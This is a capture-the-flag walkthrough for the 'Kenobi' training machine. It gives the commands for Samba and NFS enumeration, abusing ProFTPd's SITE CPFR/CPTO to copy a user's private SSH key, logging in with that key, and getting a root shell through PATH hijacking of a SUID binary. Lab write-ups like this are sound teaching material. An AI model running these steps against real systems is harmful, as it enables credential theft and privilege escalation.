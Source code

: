# Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

Set up environment IP as IP_Machine

```
export IP=10.10.184.151
```

![IP](./images/IP.png)

## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?  
	
	```
	nmap -sV $IP | tee nmap-scan.txt
	```

	![task1-nmap](./images/task1-nmap.png)

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?  
	
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
	```  

	![task2-samba](./images/task2-samba.png)

* Once you're connected, list the files on the share. What is the file can you see?  
	
	```
	smbclient //$IP/anonymous
	```

	![task2-smbclient](./images/task2-smbclient.png)

	Get the file [here.](./files/log.txt)

	![task2-smbget](./images/task2-smbget.png)

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?  
	
	```
	sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
	```  

	![task2-nfs](./images/task2-nfs.png)

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	```
	nc 10.10.65.169 21
	```

	![task3-version](./images/task3-version.png)

* How many exploits are there for the ProFTPd running?
	
	```
	searchsploit ProFtpd 1.3.5
	```

	![task3-sploit](./images/task3-sploit.png)


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	
	![task3-copy](./images/task3-copy.png)

* What is Kenobi's user flag (/home/kenobi/user.txt)?  
	* Lets mount the /var/tmp directory to our machine
	
		```
		mkdir /tmp/KenobiNFS
		sudo mount 10.10.231.1:/var /tmp/KenobiNFS
		ls -la /tmp/KenobiNFS
		```
		
		![task3-kenobiNFS](./images/task3-kenobiNFS.png)

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
		```
		cp /tmp/kenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@10.10.231.1
		```
		Get the file [here.](./files/id_rsa)

		![task3-id_rsa](./images/task3-id_rsa.png)

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		![task3-usertext](./images/task3-usertext.png)

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	`find / -type f -perm -4000 -ls 2>/dev/null`

	![task4-SUID](./images/task4-SUID.png)

* Run the binary, how many options appear?
	
	`/usr/bin/menu`

	![task4-binary](./images/task4-binary.png)

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	`strings /usr/bin/menu`

	![task4-strings](./images/task4-strings.png)

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	![task4-privilege](./images/task4-privilege.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	![task4-rootTXT](./images/task4-rootTXT.png)
